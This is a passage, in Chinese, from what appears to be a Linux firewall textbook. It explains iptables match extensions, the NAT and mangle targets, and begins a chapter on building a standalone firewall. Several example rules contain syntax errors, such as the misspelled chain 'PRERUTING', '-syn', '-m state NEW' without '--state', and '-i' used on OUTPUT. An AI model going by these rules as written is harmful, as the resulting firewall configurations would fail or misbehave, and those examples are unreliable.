iptables -A INPUT -i eth0 -p udp -m multiport --destination-port 135,136,137,138,139 -j DROP
```

下一条规则阻止通过 `eth0` 接口使用 NFS、socks 和 squid TCP 服务发送至高端口的传出连接请求：

```bash
iptables -A OUTPUT -o eth0 -p tcp -m multiport --destination-port 2049,1080,3128 --syn -j REJECT
```

在这个例子中，重要的是要注意 `multiport` 命令必须紧跟在协议指定之后。如果将 `--syn` 放在 `-p tcp` 和 `-m multiport` 之间，会导致语法错误。

为了展示 `--syn` 位置的类似示例，以下操作是正确的：

```bash
iptables -A INPUT -i <interface> -p tcp -m multiport --source-port 80,443 ! --syn -j ACCEPT
```

然而，这会导致语法错误：

```
iptables -A INPUT -i <interface> -p tcp --syn \
-m multiport --source-port 80,443 -j ACCEPT
```

此外，源地址和目的地址参数的位置并不明显。以下两种变体是正确的：

```
iptables -A INPUT -i <interface> -p tcp -m multiport \
--source-port 80,443 \
! --syn -d $IPADDR --dport 1024:65535 -j ACCEPT
```

以及


```
iptables -A INPUT -i <interface> -p tcp -m multiport \
--source-port 80,443 \
-d $IPADDR ! --syn --dport 1024:65535 -j ACCEPT
```

然而，这会导致语法错误：

```
iptables -A INPUT -i <interface> -p tcp -m multiport \
--source-port 80,443 \
-d $IPADDR --dport 1024:65535 ! --syn -j ACCEPT
```

该模块存在一些令人惊讶的语法副作用。如果移除对 SYN 标志的引用，上述两条规则中的任意一条都会产生语法错误：

```
iptables -A INPUT -i <interface> -p tcp -m multiport \
--source-port 80,443 \
-d $IPADDR --dport 1024:65535 -j ACCEPT
```

然而，下面这对规则不会：

```
iptables -A OUTPUT -o <interface> \
-p tcp -m multiport --destination-port 80,443 \
! --syn -s $IPADDR --dport 1024:65535 -j ACCEPT
```

```
iptables -A OUTPUT -o <interface> \
-p tcp -m multiport --destination-port 80,443 \
-syn -s $IPADDR --dport 1024:65535 -j ACCEPT
```

请注意，`multiport` 模块的 `--destination-port` 参数与处理 `-p tcp` 参数的模块中的 `--destination-port` 或 `--dport` 参数并不相同。

## limit 过滤器 TABLE 匹配扩展

速率限制匹配对于限制在日志记录包洪泛期间生成的日志消息数量非常有用。

表 6.13 列出了 `limit` 匹配扩展可用的选项。

### 表 6.13 limit 匹配扩展

| 选项 | 描述 |
| :--- | :--- |
| `-m`, `--match limit` | 匹配扩展 |
| `--limit <rate>` | 在时间框架内匹配的最大数据包数 |
| `--limit-burst <number>` | 在应用限制之前匹配的最大初始数据包数 |

突发速率定义了要接受的初始匹配数量。默认值是五次匹配。当达到限制时，后续的匹配将受到速率限制。默认限制是每小时三次匹配。可选的时间框架指定符包括 `/second`、` /minute`、`/hour` 和 `/day`。

换句话说，当初始突发速率的五次匹配在时间限制内时，无论收到多少数据包，接下来的匹配将在下一个小时内发生，每 20 分钟一次。如果未能在速率限制内发生匹配，突发量将增加一个。

演示速率限制匹配比用文字描述它更容易。以下规则将在给定的秒内接收到初始的五个 echo-request 时，将传入 ping 消息匹配的日志记录限制为每秒一次：

```
iptables -A INPUT -i eth0 \\
-p icmp --icmp-type echo-request \\
-m limit --limit 1/second -j LOG
```

也可以对数据包接受进行速率限制。以下两条规则结合使用时，将在给定的秒内接收到初始的五个 echo-request 时，将传入 ping 消息的接受限制为每秒一次：

```
iptables -A INPUT -i eth0 \\
-p icmp --icmp-type echo-request \\
-m limit --limit 1/second -j ACCEPT
```

```
iptables -A INPUT -i eth0 \\
-p icmp --icmp-type echo-request -j DROP
```

下一条规则限制了因丢弃的 ICMP 重定向消息而生成的日志消息数量。当在 20 分钟的时间框架内已记录初始的五条消息后，接下来的一小时内最多会生成三条日志消息，每 20 分钟一条：

```
iptables -A INPUT -i eth0 \\
-p icmp --icmp-type redirect \\
-m limit -j LOG
```

最后一个示例中的假设是，该数据包以及任何未匹配的额外重定向数据包将被 INPUT 链的默认 DROP 策略静默丢弃。

## dstlimit 过滤器 TABLE 匹配扩展

`dstlimit` 匹配扩展允许基于每个目标进行速率限制，按 IP 地址或按端口。请注意 `dstlimit` 匹配扩展与 `limit` 匹配扩展之间的区别，后者对特定类型的数据包只有一个限制。

表 6.14 列出了 `dstlimit` 匹配扩展的选项。

| 选项 | 定义 |
| :--- | :--- |
| `--dstlimit <average>` | 每秒数据包的最大平均匹配速率 |
| `--dstlimit-mode <mode>` | 定义限制是按 IP（dstip）、按 IP 和端口元组（dstip-dstport）、按源 IP 和目标 IP 元组（srcip-dstip），还是按源 IP 和目标 IP 端口元组（srcip-dstport）。 |
| `--dstlimit-name <name>` | 指定放置在 `/proc/net/ipt_dstlimit/` 中的文件的名称。 |
| `--dstlimit-burst <burst>` | 指定作为突发数据包接收时应匹配的数据包数量。默认值为 5。 |
| `--dstlimit-htable-size <size>` | 定义哈希表中的桶数。 |
| `--dstlimit-htable-max <entries>` | 定义哈希表中的条目数。 |
| `--dstlimit-htable-gcinterval <interval>` | 定义哈希表清理的时间长度。`<interval>` 的值为毫秒，默认值为 1000 毫秒。 |
| `--dstlimit-htable-expire <time>` | 定义从哈希表中清除空闲条目前的时间量。该值为毫秒，默认值为 10000 毫秒。 |

## state 过滤器 TABLE 匹配扩展

静态过滤器仅从数据包级别检查流量。每个数据包特定的源地址和目标地址、端口的组合、传输协议以及当前的 TCP 标志组合都在不考虑任何正在进行的上下文的情况下进行检查。ICMP 消息被视为不相关的、带外 IP 第 3 层事件。

`state` 扩展提供了额外的监控和记录技术，以增强无状态的静态数据包过滤技术。当 TCP 连接或 UDP 交换被发起时，会记录状态信息。后续的数据包不仅根据静态元组信息进行检查，还在正在进行的交换的背景下进行检查。换句话说，通常与上层 TCP 传输层或 UDP 应用层相关的某些上下文知识被带到了过滤器层。

在交换被发起并接受后，后续的数据包被识别为已建立交换的一部分。相关的 ICMP 消息被识别为与特定交换相关。

在遥测中，一组共同唯一标识事件或对象的值或属性被称为*元组*（`tuple`）。UDP 或 TCP 数据包由其协议（UDP 或 TCP）、源地址和目标地址的元组组合唯一标识，

对于会话监控，维护状态信息的优势不太明显，因为 TCP 根据定义就维护状态信息。对于 UDP，直接的优势是有能力将请求与其他数据区分开来。在传出 DNS 请求的情况下，这代表一个新的 UDP 交换，已建立会话的上下文允许在特定的有限时间窗口内接受来自主机和最初发送目标的传入 UDP 响应。来自其他主机或端口的传入数据报不被允许。它们不是此特定交换已建立状态的一部分。当应用于 TCP 和 UDP 时，如果错误消息与特定会话相关，则接受 ICMP 消息。

在考虑数据包流性能和防火墙连接性时，对于 TCP 流，优势更加明显。流主要是一种防火墙性能和优化技术。流的主要目标是允许绕过数据包防火墙检查路径。因为如果 TCP 数据包被立即识别为已允许的连接的一部分，可以跳过剩余的过滤器，所以允许更快的 TCP 数据包处理。对于 TCP 连接，流状态在过滤性能方面可能是一个巨大的优势。此外，标准 TCP 协议规则可以合并为一条允许规则。过滤器的数量减少了（理论上如此，但实际上不一定）。

缺点在于，维护状态比仅使用标准防火墙过滤器需要更多的内存。例如，对于 70,000 个同时连接，为每个连接维护状态信息需要大量的内存。出于性能原因，状态维护通常在硬件中完成，其中关联表查找可以同时或并行进行。无论是在硬件还是软件中实现，状态引擎必须能够在状态表条目没有可用内存时，将数据包恢复回传统路径。

此外，创建、查找和拆除需要时间。对于像 FTP 传输或 UDP 流媒体会话这样的正在进行的交换，状态维护是一种损失。这两种类型的数据流都可能代表大量的数据包（以及过滤器匹配测试）。然而，对于简单的 DNS 或 NTP 客户端/服务器交换，状态维护并不是防火墙性能的提升。状态建立和拆除可能需要大量的处理——以及更多的内存——仅仅是为了遍历这些数据包的过滤器规则。


对于过滤 Web 流量的防火墙，优势也值得怀疑。Web 客户端/服务器交换往往是短暂且临时的。

`Telnet` 和 `SSH` 会话处于一个灰色区域。在流量密集且会话众多的路由器上，通过绕过防火墙检查，状态维护开销可能会得到改善。然而，对于相当空闲的会话，连接条目很可能超时而丢弃。当下一个数据包通过传统防火墙规则后，状态表条目将被重新创建。

表 6.15 列出了 `state` 匹配扩展可用的选项。

## 表 6.15 state 匹配扩展

| 选项 | 描述 |
| :--- | :--- |
| `-m state` |  |
| `--state <state>` | 如果连接状态在列表中匹配则命中。合法值为 `NEW`、`ESTABLISHED`、`RELATED` 或 `INVALID`。 |

`TCP` 连接状态和正在进行的 `UDP` 交换信息可以被维护，允许网络条目被过滤为 `NEW`、`ESTABLISHED`、`RELATED` 或 `INVALID`。

- `NEW` 等同于初始 `TCP` `SYN` 请求，或第一个 `UDP` 数据包。
- `ESTABLISHED` 指连接启动后持续的 `TCP` `ACK` 消息，同一主机和端口之间后续交换的 `UDP` 数据报，以及对先前 `echo-request` 响应的 `ICMP` `echo-reply` 消息。
- `RELATED` 仅指 `ICMP` 错误消息。`FTP` 连接由额外的 `FTP` 连接跟踪支持模块管理。添加该模块后，`RELATED` 的含义扩展至包括次要连接。
- `INVALID` 数据包的一个示例是传入的 `ICMP` 错误消息并非对当前会话的响应，或者 `echo-reply` 并非对先前 `echo-request` 的响应。

理想情况下，使用 `ESTABLISHED` 匹配可以将一系列防火墙规则对合并为仅允许第一个请求数据包的单一规则。例如，使用 `ESTABLISHED` 匹配，Web 客户端规则仅需允许初始的出站 `SYN` 请求。

尽管防火墙配置在大多数情况下对于小型站点或家庭站点可能运作良好，但对于大型站点或同时处理大量连接的防火墙来说，其性能很可能不足。原因归结为状态表条目超时的情况，由于表大小和内存限制，空闲连接的状态会被替换。下一个本应被删除的状态条目接受的数据包需要一条规则来允许该数据包，并且必须重建状态表条目。


## iptables 语法

一个简单的例子是针对作为缓存转发名称服务器运行的本地 `DNS` 服务器的规则对。`DNS` 转发名称服务器使用服务器到服务器的通信。`DNS` 流量在两台主机的 53 源端口和 53 目的端口之间交换。`UDP` 客户端/服务器关系可以被显式指定。以下规则明确列出了出站 `NEW` 请求、入站 `ESTABLISHED` 响应以及任何 `RELATED` `ICMP` 错误消息：

```bash
iptables -A INPUT -m state \
  --state ESTABLISHED,RELATED -j ACCEPT
```

```bash
iptables -A OUTPUT -i <interface> -p udp \
  -s $IPADDR --sport 53 -d $NAME_SERVER --dport 53 \
  -m state NEW -j ACCEPT
```

`DNS` 使用简单的查询和响应协议。但如果应用程序可以长时间维持持续连接，例如 `FTP` 控制会话或 `Telnet` 或 `SSH` 会话呢？如果状态表条目因某种原因被清除，未来的数据包将没有状态条目可供匹配或标识为 `ESTABLISHED` 交换的一部分。

以下 `SSH` 连接的规则允许了这种可能性：

```bash
iptables -A INPUT -m state \
  --state ESTABLISHED,RELATED -j ACCEPT
```

```bash
iptables -A OUTPUT -m state \
  --state ESTABLISHED,RELATED -j ACCEPT
```

```bash
iptables -A OUTPUT -i <interface> -p tcp \
  -s $IPADDR --sport $UNPRIVPORTS \
  -d $REMOTE_SSH_SERVER --dport 22 \
  -m state NEW -j ACCEPT
```

```bash
iptables -A INPUT -i <interface> -p tcp ! --syn \
  -s $IPADDR --sport $UNPRIVPORTS \
  -d $REMOTE_SSH_SERVER --dport 22 \
  -j ACCEPT
```

```bash
iptables -A INPUT -i <interface> -p tcp ! --syn \
  -s $REMOTE_SSH_SERVER --sport 22 \
  -d $IPADDR --dport $UNPRIVPORTS \
  -j ACCEPT
```

## mac 过滤器表格匹配扩展

表 6.16 列出了 `mac` 匹配扩展可用的选项。

### 表 6.16 mac 匹配扩展

| 选项 | 描述 |
| :--- | :--- |
| `-m mac` |  |
| `--mac-source [!] <address>` | 匹配传入以太网帧中指定的层 2 以太网硬件源地址，格式为 `xx:xx:xx:xx:xx:xx`。 |

请记住 `MAC` 地址不会跨越路由器边界（或网络段）。也要记住只能指定源地址。`mac` 扩展只能用于入接口，如 `INPUT`、`PREROUTING` 和 `FORWARD` 链。

以下规则允许来自本地主机的入站 `SSH` 连接：

```bash
iptables -A INPUT -i <local interface> -p tcp \
  -m mac --mac-source xx:xx:xx:xx:xx:xx \
  --sport 1024:65535 \
  -d IPADDR --dport 22 -j ACCEPT
```

## owner 过滤器表格匹配扩展

表 6.17 列出了 `owner` 匹配扩展可用的选项。

### 表 6.17 owner 匹配扩展

| 选项 | 描述 |
| :--- | :--- |
| `-m owner` |  |
| `--uid-owner <userid>` | 基于创建者的 `UID` 进行匹配 |
| `--gid-owner <groupid>` | 基于创建者的 `GID` 进行匹配 |
| `--pid-owner <processid>` | 基于创建者的 `PID` 进行匹配 |
| `--sid-owner <sessionid>` | 基于创建者的 `SID` 或 `PPID` 进行匹配 |
| `--cmd-owner <name>` | 匹配由名为 `name` 的命令创建的数据包 |

该匹配指数据包创建者。扩展只能用于 `OUTPUT` 链。

这些选项在防火墙路由器上意义不大；它们在终端主机上更有意义。

假设你有一个带有监视器、可能没有键盘的防火墙网关。管理通过本地多用户主机进行。只允许一个用户账户从此主机登录到防火墙。在多用户主机上，对防火墙的管理访问可以在本地进行过滤，如下所示：

```bash
iptables -A OUTPUT -o eth0 -p tcp \
  -s <IPADDR> --sport 1024:65535 \
  -d <fw IPADDR> --dport 22 \
  -m owner --uid-owner <admin userid> \
  --gid-owner <admin groupid> -j ACCEPT
```

## mark 过滤器表格匹配扩展

表 6.18 列出了 `mark` 匹配扩展可用的选项。

### 表 6.18 mark 匹配扩展

| 选项 | 描述 |
| :--- | :--- |
| `-m mark` |  |
| `--mark <value>[/mask]` | 匹配具有 `Netfilter` 分配标记值的数据包 |

值和掩码均为无符号长整型值。如果指定了掩码，则值与掩码进行 `AND` 操作。

在示例中，假设在特定源和目的之间传入的 `Telnet` 数据包之前已被标记：

```bash
iptables -A FORWARD -i eth0 -o eth1 -p tcp \
  -s <some src address> --sport 1024:65535 \
  -d <some destination address> --dport 23 \
  -m mark --mark 0x00010070/0xFFFF00FF -j ACCEPT
```

这里测试的值是在数据包处理的早期阶段设置的。标记值是一个标志，表示该数据包应与其他数据包不同处理。

## tos 过滤器表格匹配扩展

表 6.19 列出了 `tos` 匹配扩展可用的选项。

### 表 6.19 tos 匹配扩展

| 选项 | 描述 |
| :--- | :--- |
| `-m tos` |  |


| `--tos <value>` | 基于 IP TOS 设置进行匹配 |

`tos` 值可以是以下字符串或数值之一：

- `minimize-delay`, `16`, `0x10`
- `maximize-throughput`, `8`, `0x08`
- `maximize-reliability`, `4`, `0x04`
- `minimize-cost`, `2`, `0x02`
- `normal-service`, `0`, `0x00`

## TOS 位的价值

TOS 位仅具有历史意义。Linux 支持本地使用它们，并且各种 Linux 防火墙文档提到了 TOS 位及其用途。然而，事实是 TOS 位通常不被使用或不被检查。

TOS 字段已被重新定义为差异化服务（DS）字段，供差异化服务控制协议（DSCP）使用。

如需了解差异化服务的更多信息，请参见以下来源：

- RFC 2474, "IPv4 and IPv6 头部中差异化服务字段（DS Field）的定义"
- RFC 2475, "差异化服务架构"
- RFC 2990, "IP QoS 架构的下一步"
- RFC 3168, "向 IP 添加显式拥塞通知（ECN）"
- RFC 3260, "Diffserv 的新术语和澄清"

## unclean 过滤器表格匹配扩展

`unclean` 模块的具体数据包有效性检查未文档化。该模块被视为实验性，`iptables` 作者建议暂时不要使用它。

以下行显示了 `unclean` 模块语法。该模块不接受参数：

```bash
-m unclean
```

在本书出版时，`unclean` 扩展可能已获认可。在此期间，该模块提供了 LOG 选项的一个示例：

```bash
iptables -A INPUT -p tcp -m unclean \
  -j LOG --log-prefix "UNCLEAN packet: " \
  --log-ip-options
iptables -A INPUT -p tcp -m unclean \
  -j LOG --log-prefix "UNCLEAN TCP: " \
  --log-ip-options \
  --log-tcp-sequence --log-tcp-options
iptables -A INPUT -m unclean -j DROP
```

## addrtype 过滤器 TABLE MATCH 扩展

`addrtype` 匹配扩展用于根据地址类型（如单播、广播和组播）来匹配数据包。地址类型包括表 6.20 中列出的那些。

### 表 6.20 与 addrtype 匹配配合使用的地址类型

| 名称 | 描述 |
| --- | --- |
| ANYCAST | 任播数据包 |
| BLACKHOLE | 黑洞地址 |
| BROADCAST | 广播地址 |
| LOCAL | 本地地址 |
| MULTICAST | 组播地址 |
| PROHIBIT | 禁止地址 |
| UNICAST | 单播地址 |
| UNREACHABLE | 不可达地址 |
| UNSPEC | 未指定地址 |

与 `addrtype` 匹配配合使用的两个命令如表 6.21 所示。

### 表 6.21 addrtype 匹配命令

| 选项 | 描述 |
| --- | --- |
| `--src-type <type>` | 匹配源类型为 `<type>` 的地址 |
| `--dst-type <type>` | 匹配目的类型为 `<type>` 的地址 |

## iprange 过滤器 TABLE MATCH

有时使用 CIDR 表示法定义 IP 地址范围对于您的需求是不够的。例如，如果您需要限制某些不落在子网边界上或仅包含少数几个地址的 IP 范围，`iprange` 匹配类型就能胜任这项工作。

使用 `iprange` 匹配时，您指定任意 IP 地址范围以使匹配生效。`iprange` 匹配也可以取反。表 6.22 列出了 `iprange` 匹配的命令。

### 表 6.22 iprange 匹配命令

| 命令 | 描述 |
| --- | --- |
| `[!] --src-range <ip address-ip address>` | 指定（或取反）要匹配的 IP 地址范围。范围用单个连字符表示，且中间无空格。 |
| `[!] --dst-range <ip address-ip address>` | 指定（或取反）要匹配的 IP 地址范围。范围用单个连字符表示，且中间无空格。 |

## length 过滤器 TABLE MATCH

`length` 过滤器 table match 检查数据包的长度。如果数据包的长度匹配给定值，或者可选地落在给定范围内，则触发该规则。表 6.23 列出了与 `length` 匹配相关的唯一命令。

### 表 6.23 length 匹配命令

| 命令 | 描述 |
| --- | --- |
| `--length<length>[:<length>]` | 匹配长度为 `<length>` 的数据包，或长度在 `<length:length>` 范围内的数据包 |

### 6.4.4 NAT 表目标扩展

如前所述，`iptables` 支持四种通用的 NAT 类型：源地址转换 (`SNAT`)；目的地址转换 (`DNAT`)；伪装 (`MASQUERADE`)，这是 `SNAT` 实现的一个特例；以及本地端口重定向 (`REDIRECT`) 到本地主机。作为 NAT 表的一部分，当规则使用 `-t nat` 指定符指定 `nat` 表时，每个目标均可用。

### SNAT NAT 表目标扩展

源地址和端口转换 (`NAPT`) 是人们最常见的一种 NAT 类型。如图 6.5 所示，源地址转换是在路由决策做出之后进行的。`SNAT` 仅在 `POSTROUTING` 链中是合法的目标。因为 `SNAT` 是在数据包发送前立即应用的，所以只能指定出站接口。

一些文档将这种形式的 NAT（最常见的形式）称为 `NAPT`，以承认端口修改。另一种传统的单向 NAT 形式是基本 NAT，它不触及源端口。这种形式用于转换私有局域网和公共地址池的情况。

当您只有一个公共地址时使用 `NAPT`。源端口被更改为防火墙/NAT 机器上的一个空闲端口，因为它为任意数量的计算机进行转换，且内部计算机使用的端口可能已被 NAT 机器使用。当响应返回时，端口是 NAT 机器确定数据包真正 intended 给内部计算机而不是它自己，并确定数据包 intended 给哪台内部计算机的唯一依据。



图 6.5 NAT 数据包遍历过程。

`SNAT` 的一般语法如下：

```
iptables -t nat -A POSTROUTING --out-interface <interface> ... \n  -j SNAT --to-source <address>[[:<address>]::<port>]]
```

如果可用多个 IP 地址，源地址可以映射到可能的 IP 地址范围。

源端口可以映射到路由器上特定范围的源端口。

### MASQUERADE TABLE 目标扩展

源地址转换在 `iptables` 中以两种方式实现：`SNAT` 和 `MASQUERADE`。区别在于 `MASQUERADE` 目标扩展旨在用于动态分配的 IP 地址连接，特别是在连接是临时的且每次新连接的 IP 地址分配可能不同的情况下。如前文“NAT 表特性”中讨论的，`MASQUERADE` 特别适用于拨号连接。

因为 `MASQUERADE` 是 `SNAT` 的一个特例，所以它同样仅在 `POSTROUTING` 链中是合法的目标，并且规则可以引用出站接口。与更通用的 `SNAT` 不同，`MASQUERADE` 不接受指定应用于数据包源地址的参数。出站接口的 IP 地址会自动使用。

`MASQUERADE` 的一般语法如下：

```
iptables -t nat -A POSTROUTING --out-interface <interface> ... \n  -j MASQUERADE --to-ports <port>[-<port>]
```

源端口可以映射到路由器上特定范围的源端口。

### DNAT NAT 表目标扩展

目的地址和端口转换是一种高度专业化的 NAT 形式。对于居民或小型商业站点，如果其公共 IP 地址是动态分配的，或者站点只有一个 IP 地址，且站点管理员希望将传入连接转发到不可公开访问的内部服务器，最有可能发现其有用。换言之，`DNAT` 特性可用于替代以前所需的第三方转发软件，如 `ipmasquerading`。

参考图 6.5，目的地址和端口转换是在路由决策之前进行的。在 `PRERUTING` 链上，当指定入站接口时，`DNAT` 可以是目标。在 `OUTPUT` 链上，当指定出站接口时，`DNAT` 可以是目标。

`DNAT` 的一般语法如下：


```
iptables -t nat -A PRERUTING --in-interface <interface> \
  -j DNAT --to-destination <address>[-<address>]:[:port-<port>]
iptables -t nat -A OUTPUT --out-interface <interface> \
  -j DNAT --to-destination <address>[-<address>]:[:port-<port>]
```

如果可用多个 IP 地址，目的地址可以映射到可能的 IP 地址范围。

目的端口可以映射到目的主机上特定范围的替代端口。

### REDIRECT NAT 表目标扩展

端口重定向是 `DNAT` 的一个特例。数据包被重定向到本地主机的一个端口。否则会被转发到入站接口的传入数据包被重定向到接口的 `INPUT` 链。本地主机生成的出站数据包被重定向到本地主机环回接口上的端口。

`REDIRECT` 仅仅是一个别名，一种将数据包重定向到本机的特例的便捷方式。它没有提供额外的功能价值。使用 `DNAT` 也可以轻易地产生相同的效果。

`REDIRECT` 仅在 `PRERUTING` 和 `OUTPUT` 链中是合法的目标。在 `PRERUTING` 链上，当指定入站接口时，`REDIRECT` 可以是目标。在 `OUTPUT` 链上，当指定出站接口时，`REDIRECT` 可以是目标。

`REDIRECT` 的一般语法如下：

```
iptables -t nat -A PRERUTING --in-interface <interface> \
  -j REDIRECT [--to-ports <port>[-<port>]]
iptables -t nat -A OUTPUT --out-interface <interface> \
  -j REDIRECT [--to-ports <port>[-<port>]]
```

目的端口可以映射到本地主机上的不同端口或特定范围的替代端口。

# iptables 语法

## BALANCE NAT 表目标扩展

`BALANCE` 目标允许使用轮询方法将连接发送到多个目标主机。`BALANCE` 目标为此使用地址范围，从而提供一种基础的负载均衡。

`BALANCE` 的一般语法如下：

```
iptables -t nat -A PREROUTING -p tcp -j BALANCE \
--to-destination <ip address> --ip address
```

`CLUSTERIP` 目标也提供了其中的一些相同选项。

`mangle` 表的目标和扩展适用于 `OUTPUT` 和 `PREROUTING` 链。请记住，默认情况下隐含的是 `filter` 表。若要使用 `mangle` 表的功能，您必须使用 `-t mangle` 指令指定 `mangle` 表。

## mangle 表目标扩展

表 6.24 列出了 `mangle` 表可用的目标扩展。

| -t mangle 选项 | 描述 |

|---|---|

| `-j MARK --set-mark <value>` | 设置此数据包对应的 Netfilter 标记值 |

| `-j TOS --set-tos <value>` | 设置 IP 报头中的值 |

有两个 `mangle` 表目标扩展：`MARK` 和 `TOS`。`MARK` 包含为数据包设置由 `iptables mangle` 表维护的无符号长标记值的功能。

使用示例如下：

```
iptables -t mangle -A PREROUTING --in-interface eth0 -p tcp \
-s <src address> --sport 1024:65535 \
-d <some destination address> --dport 23 \
-j MARK --set-mark 0x000100070
```

`TOS` 包含在 IP 报头中设置 `TOS` 位的功能。

使用示例如下：

```
iptables -t mangle -A OUTPUT ... -j TOS --set-tos <tos>
```

可能的 `TOS` 值与 `filter` 表的 `TOS` 扩展模块中可用的值相同。

## 6.5 摘要

本章涵盖了 `iptables` 中可用的大部分功能——当然，也是最常用的那些功能。我试图给出 Netfilter 和 `IPFW` 之间差异的整体感觉。介绍了 `filter`、`mangle` 和 `nat` 这三个主要表的分层模块化实现。在这些主要划分内部，功能进一步分解为提供目标扩展的模块和提供匹配扩展的模块。

第 7 章，“构建和安装独立防火墙”，通过一个简单的独立防火墙示例进行讲解。介绍了基本的反欺骗、拒绝服务以及其他基本规则。本章的目的并不是提供通用的防火墙供人们直接复制粘贴用于实际用途，而是为了以一种实用的方式演示本章中介绍的语法。

# 7

# 构建和安装独立防火墙

第 5 章，“包过滤概念”，介绍了包过滤防火墙背后的基本概念和思想。每条防火墙规则都有自己默认的默认策略。每条规则不仅适用于单独的 `INPUT` 或 `OUTPUT` 链，还可以应用于特定的网络接口、消息协议类型（如 `TCP`、`UDP` 或 `ICMP`）以及服务端口号。为 `INPUT` 链和 `OUTPUT` 链定义了单独的接受、拒绝和重传规则，此外还定义了 `FORWARD` 链的规则，关于 `FORWARD` 链的内容您将在本章末尾了解。本章汇集这些思想，演示如何为您的站点构建一个简单的单系统防火墙。

本章将要构建的防火墙基于默认拒绝所有流量的默认策略。所有网络流量默认被阻止。服务被单独启用，作为策略的例外。

构建单系统防火墙后，多宿主防火墙至少有两个网络接口。它将内部局域网与互联网的直接通信隔离开来。通过在两个转发接口上应用包过滤规则，并加上网络地址转换（`NAT`），充当局域网和互联网之间的代理网关，从而保护您的局域网。`NAT` 并不是代理服务，在提供连接的中间终止点这个意义上说不是。`NAT` 类似于代理，在于本地主机对公共互联网是隐藏的。

单系统和双宿主防火墙是最低安全级别的防火墙架构形式。如果防火墙被攻破，任何本地机器都将暴露在攻击之下。作为独立防火墙，这是一项全有或全无的任务。单宿主主机最常出现在托管公共互联网服务的 `DMZ` 中，或住宅环境中。

在单系统的家庭或小型企业环境中，假设大多数用户有一台计算机连接到互联网，或一台防火墙机器保护小型私有局域网。假设这些站点没有资源将该模型扩展为具有额外防火墙层级的架构。

然而，“最低安全”一词并不一定意味着不安全的防火墙。这些防火墙比涉及多台机器的更复杂的架构安全性更低。安全性是可用资源与花在下一美元上的边际收益之间的权衡。

## 7.1 iptables：Linux 防火墙管理程序

本书基于 2.6 Linux 系列，但其中许多内容也适用于 2.4 内核系列。大多数 Linux 发行版都配备了第 6 章“`iptables`：Linux 防火墙管理程序”中介绍的 Netfilter 防火墙机制。该机制通常被称为 `iptables`，即其管理程序的名称。旧的 Linux 发行版使用早期的 `IPFW` 机制。该防火墙机制通常被称为 `ipfwadm` 或 `ipchains`，即早期版本的管理程序名称。

`iptables` 包含了 `ipchains` 和 `ipfwadm` 的兼容模块。有些人可能希望在测试其转换到 `iptables` 之前使用其中一个模块。

作为防火墙管理程序，`iptables` 为组成防火墙的 `INPUT` 和 `OUTPUT` 链创建单独的包过滤规则。定义防火墙规则最重要的方面之一是规则定义顺序。

包过滤规则存储在内核表中，分别位于 `INPUT`、`OUTPUT` 或 `FORWARD` 链中，其中它们被定义。单独的规则插入链的开头或链的末尾。本章所有示例都会检查所有规则（本章末尾有一个例外）。定义规则的顺序是规则添加到内核表的顺序，因此也是规则与各数据包进行比较的顺序。

当每个源数据包到达网络接口时，其报头字段会与接口 `INPUT` 链中的每条规则进行比较，直到找到匹配为止。相反，当每个本地生成的数据包被发送出去时，其报头字段会与接口 `OUTPUT` 链中的每条规则进行比较，直到找到匹配为止。在两个方向上，当找到匹配时，比较停止并应用为该数据包位置记忆的操作：`ACCEPT`、`DROP` 或可选的 `REJECT`。如果数据包不与链上的任何规则匹配，则应用该链的默认策略。底线是首个匹配的规则获胜。

本章所有过滤示例中使用的是数字服务端口号，而不是 `/etc/services` 中列出的符号名称。`iptables` 提供了符号服务端口名。本章示例使用数字，因为符号名称在不同的 Linux 发行版之间甚至在不同版本之间都不一致。您自己的规则可以使用符号名称，但请记住，您的防火墙可能会在下次系统升级时失效。我发现使用端口号本身可靠得多。防火墙中需要的是无歧义，而使用名称代替端口号恰恰引入了歧义。


大多数 Linux 发行版将 `iptables` 实现为一组可加载程序模块。大多数或所有模块在首次使用时动态并自动加载。如果您选择构建自己的内核（我几乎总是这么做），您需要为 Netfilter 编译，作为模块或直接编译到内核中。`iptables` 命令必须为每个单独定义的防火墙规则调用一次。最初这是从 shell 脚本中完成的。本章将使用一个名为 `rc.firewall` 的脚本。脚本的位置取决于使用该脚本的 Linux 类型。例如，Red Hat

## iptables：Linux 防火墙管理程序

在 SUSE 系统中，该脚本通常应位于 `/etc/rc.d/` 目录内，而在 Debian 系统中，`/etc/init.d/` 才是正确的位置。在语义存在差异的情况下，示例将使用 Bourne (`sh`) 或 Bourne Again (`bash`) shell 的语义编写。

该 shell 脚本设置了一些变量。其中包括 `iptables` 命令本身的位置。将其设置在变量中很重要，以便能够明确其位置。对于防火墙脚本而言，任何模糊性都是不可接受的。本章中用于表示 `iptables` 命令的变量是 `$IPT`。如果你看到 `$IPT`，它是 `iptables` 命令的替代符号。你当然也可以在 shell 中通过输入 `iptables` 而不是 `$IPT` 来直接执行这些命令。但是，为了在脚本中使用（这也是本章的意图），设置这个变量是一个好主意。

脚本应以 “shebang” 行开头，调用 shell 作为脚本的解释器。换句话说，请将以下内容作为脚本的第一行：

```
#!/bin/sh
```

这些示例未做优化，它们为了清晰而详细列出。

关于是否应该编译自定义内核还是坚持使用 Linux 发行版自带的 “原厂” 内核，存在很大的争议。争议还包括编译单片式内核（其中所有内容都编译进内核）是否本质上比使用模块化内核更好。任何争议都有各自的优缺点。一方面，有些人（几乎总是）会构建自己的内核，有时被称为 “自行编译”。另一方面，有些人很少或从不自行编译内核。有些人总是构建单片式内核，而另一些人则使用模块化内核。

构建自定义内核有几个优点。首先是能够只编译运行计算机所必需的精确驱动程序和选项。这对于防火墙等服务器非常好，因为这类硬件很少变化，甚至从不变化。如果你选择单片式内核，编译自定义内核的另一个优点是能够完全阻止某些类型的攻击；虽然对单片式内核的攻击是可能的，但它们比针对模块化内核的攻击较少。此外，当你自行编译内核时，你不再受限于发行版的内核版本。这使你可以使用最新、最出色的内核，其中可能包含针对你硬件的 bug 修复。最后，使用自定义内核时，你可以对内核本身应用额外的安全增强措施。

